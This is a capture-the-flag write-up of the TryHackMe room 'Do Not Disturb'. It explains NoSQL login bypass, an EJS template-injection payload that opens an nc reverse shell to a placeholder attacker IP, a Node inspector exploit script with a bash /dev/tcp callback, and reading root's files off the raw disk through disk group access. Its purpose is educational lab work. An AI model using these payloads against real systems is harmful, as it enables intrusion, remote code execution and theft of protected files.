








# TryHackMe — Do Not Disturb

| Field          | Details                                                               |
| -------------- | --------------------------------------------------------------------- |
| **Platform**   | TryHackMe                                                             |
| **Room**       | [Do Not Disturb](https://tryhackme.com/room/hh-donotdisturb-84a45644) |
| **Difficulty** | Medium                                                                |
| **Category**   | NoSQL Injection, SSTI, Web Exploitation, Privilege Escalation         |
| **OS**         | Linux                                                                 |

## Introduction

Do Not Disturb is part of TryHackMe's Byte Lotus hotel storyline. It's a Node.js web app that chains two web bugs into a foothold: a NoSQL injection to get past the login, then a server-side template injection in EJS for code execution. After that it turns into a lateral move through an exposed Node inspector port and a privilege escalation that abuses `disk` group membership to read the root flag straight off the block device.

In this write-up I'll walk through my methodology step by step, explaining the reasoning behind each move rather than just dumping commands.

## Table of Contents

- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [NoSQL Injection — Authentication Bypass](#nosql-injection--authentication-bypass)
- [Server-Side Template Injection](#server-side-template-injection)
- [Initial Foothold](#initial-foothold)
- [Lateral Movement — Node Inspector](#lateral-movement--node-inspector)
- [Privilege Escalation — Disk Group](#privilege-escalation--disk-group)
- [Flags](#flags)
- [Key Takeaways](#key-takeaways)

---

## Reconnaissance

I started with a full TCP port scan to see what the target exposes.

```bash
nmap -sS -vv -T4 -p- $target --min-rate 2000 -oN initial.txt
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

Only two ports open, SSH and HTTP. With nothing else to chew on, port 80 was clearly where the room wanted me to go.

---

## Web Enumeration

Before touching the site properly I ran ffuf to map out any hidden routes.

```bash
ffuf -w /usr/share/dirb/wordlists/big.txt -u http://$target/FUZZ -rate 2000 -t 200
```

```
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1]
staff                   [Status: 403, Size: 1547, Words: 89, Lines: 25]
```

Two results stood out. `logout` redirects, which tells me the app has a session mechanism, and `staff` returns a 403. The page exists but I'm not authorised to see it yet.

Visiting the site itself gives a login form and not much else.



So the whole app boils down to one login form gating a `/staff` area. That framing matters. When a room hands you a single login and nothing else to enumerate, the way in is usually the login itself: some form of injection, weak or default credentials, or a flaw in how sessions are handled once you're through.

---

## NoSQL Injection — Authentication Bypass

My first instinct was classic SQL injection, so I threw the usual auth-bypass payloads at the username and password fields for a while. Nothing worked.



That dead end actually narrows things down. We're not told anything about the cookie format yet, so cookie tampering is out for now. If it isn't SQL, the next candidate on a Node stack is NoSQL. MongoDB queries are built from objects, and if the app drops user input straight into the query it'll happily accept operators like `$ne` ("not equal").

I sent the login request through Burp and rewrote the body to inject a Mongo operator:

```
username[$ne]=anything&password[$ne]=anything
```

The idea is to turn the lookup into "find a user where the password is not equal to this garbage value", which matches any account with a password set.



The server handed back a fresh session cookie, which confirms the NoSQL injection. I dropped that cookie into the browser and went to `/staff`, but still got a 403. So the injection works, but the account it logged me into is unprivileged.

The fix is to target a specific username instead of letting Mongo pick any user. I'd noticed the username field's placeholder text was `attendant`, which is a strong hint at a real account name, so I injected that directly while still bypassing the password check:

```
username=attendant&password[$ne]=anything
```



This time I got back a session cookie tied to `attendant`. I placed it in the browser and reloaded `/staff`.



The staff page finally loaded.

---

## Server-Side Template Injection

The staff area had a message box, and the placeholder content already showed `<%= guest %>`. That's EJS template syntax leaking into the page, which is a giveaway that whatever I type here might get rendered as a template rather than plain text.



The standard confirmation test for template injection is a bit of maths the engine will evaluate. I submitted `7*7` and got `49` back, so the input is being rendered server side.



At that point it's not just template injection, it's a path to code execution. EJS runs on Node, and Node templates can reach into `process` and pull in built-in modules like `child_process`. I grabbed a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md) and adapted it into a reverse shell:

```javascript
<%global.process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f").toString() %>
```



---

## Initial Foothold

I set up a listener before firing the payload.

```bash
nc -lvp 4444
```

Then I hit the preview button to render the template, and the shell connected back.

```
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 37692
bash: cannot set terminal process group (598): Inappropriate ioctl for device
bash: no job control in this shell
poolside@tryhackme-2404:/opt/poolside$
```

We landed as the `poolside` user. The user flag was sitting in their home directory.

```bash
poolside@tryhackme-2404:/opt/poolside$ cat /home/poolside/user.txt
THM{<REDACTED>}
```

---

## Lateral Movement — Node Inspector

With a foothold as `poolside`, the next question was what else runs on this box. I checked the listening sockets.

```bash
poolside@tryhackme-2404:/opt$ ss -tulnp
```

```
Netid State  Recv-Q Send-Q      Local Address:Port  Peer Address:Port
tcp   LISTEN 0      4096              0.0.0.0:22         0.0.0.0:*
tcp   LISTEN 0      511             127.0.0.1:9229      0.0.0.0:*
tcp   LISTEN 0      511                     *:80              *:*    users:(("node",pid=598,fd=21))
```

Port 9229 caught my eye. That's the default Node.js inspector (debugger) port, and it's bound to localhost, which is exactly why an external scan never saw it. A live inspector is essentially a remote code execution primitive: anyone who can reach it can evaluate arbitrary JavaScript inside the running process, as whatever user owns that process.

I queried its JSON endpoint to get the debugger details.

```bash
poolside@tryhackme-2404:/tmp$ curl -s http://localhost:9229/json
```

```json
[
  {
    "description": "node.js instance",
    "id": "6880c13e-5bf9-49f4-bd53-7baabf20671d",
    "title": "processor.js",
    "type": "node",
    "url": "file:///opt/pipelinesvc/telemetry/processor.js",
    "webSocketDebuggerUrl": "ws://localhost:9229/6880c13e-5bf9-49f4-bd53-7baabf20671d"
  }
]
```

The `url` field shows the process lives under `/opt/pipelinesvc`, which hints it runs as a different service account. To talk to the debugger I wrote a small script that opens the WebSocket, sends a `Runtime.evaluate` with a `child_process` call, and prints the result.

```javascript
const URL = 'ws://localhost:9229/6880c13e-5bf9-49f4-bd53-7baabf20671d'
const ws = new WebSocket(URL)
const cmd = process.argv[2]
const expr =
  "process.getBuiltinModule('child_process').execSync(" +
  JSON.stringify(cmd) +
  ').toString()'
ws.onopen = () =>
  ws.send(
    JSON.stringify({
      id: 1,
      method: 'Runtime.evaluate',
      params: { expression: expr, returnByValue: true },
    }),
  )
ws.onmessage = (m) => {
  const r = JSON.parse(m.data).result
  console.log(
    r.result && r.result.value !== undefined ? r.result.value : m.data,
  )
  process.exit(0)
}
```

A quick `whoami` confirmed the process runs as a different user.

```bash
poolside@tryhackme-2404:/tmp$ node shell.js whoami
pipelinesvc
```

From there I turned it into a proper reverse shell. Listener first:

```bash
nc -lvp 3333
```

Then I ran a bash callback through the debugger:

```bash
poolside@tryhackme-2404:/tmp$ node shell.js 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/3333 0>&1"'
```

```
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 51328
pipelinesvc@tryhackme-2404:/opt/pipelinesvc/telemetry$
```

I stabilised the shell so I could work in it comfortably.

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```

---

## Privilege Escalation — Disk Group

The first thing I checked as `pipelinesvc` was group membership, and it paid off immediately.

```bash
pipelinesvc@tryhackme-2404:/$ id
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

This user is in the `disk` group. That's a serious misconfiguration. Members of `disk` can read and write the raw block devices under `/dev`, which sidesteps file permissions entirely. Ownership and the immutable bit stop mattering once you can read the bytes of the filesystem directly, so `disk` group access is effectively root-equivalent for reading any file on disk.

I confirmed which device holds the root filesystem.

```bash
pipelinesvc@tryhackme-2404:/$ df -h
```

```
Filesystem      Size  Used Avail Use% Mounted on
/dev/root        20G  5.4G   14G  28% /
```

```bash
pipelinesvc@tryhackme-2404:/$ lsblk
```

```
NAME        MAJ:MIN RM   SIZE RO TYPE MOUNTPOINTS
nvme0n1     259:0    0    20G  0 disk
└─nvme0n1p1 259:1    0    20G  0 part /
```

So `/dev/nvme0n1p1` is the partition mounted at `/`. `debugfs` is an ext filesystem debugger that reads a device directly, and with `disk` group access I can point it at that partition and browse the filesystem as if I owned every file. From there, reading `root.txt` is trivial.

```bash
pipelinesvc@tryhackme-2404:/$ debugfs /dev/nvme0n1p1
debugfs 1.47.0 (5-Feb-2023)
debugfs:  cat /root/root.txt
THM{<REDACTED>}
```

And that's root's flag, pulled straight off the raw disk without ever being root.

---

## Flags

| Flag       | Location                  |
| ---------- | ------------------------- |
| `user.txt` | `/home/poolside/user.txt` |
| `root.txt` | `/root/root.txt`          |

---

## Key Takeaways

- **NoSQL injection needs different payloads than SQL.** When SQL auth-bypass strings fail against a Node app, try operator injection like `password[$ne]=x`. Targeting a known username instead of letting Mongo pick any account is what got me from an unprivileged session to the `attendant` account.
- **Template syntax leaking into the page is a free SSTI hint.** Seeing `<%= guest %>` in the placeholder pointed straight at EJS, and `7*7` returning `49` confirmed code execution was on the table.
- **An exposed Node inspector is remote code execution.** Port 9229 bound to localhost let me evaluate arbitrary JavaScript inside the running process and pivot to the account that owned it. Always check for it after landing a shell.
- **`disk` group membership is root-equivalent.** Anyone in `disk` can read the raw block device with `debugfs` and pull any file, including `/root/root.txt` and `/etc/shadow`, completely bypassing file permissions.
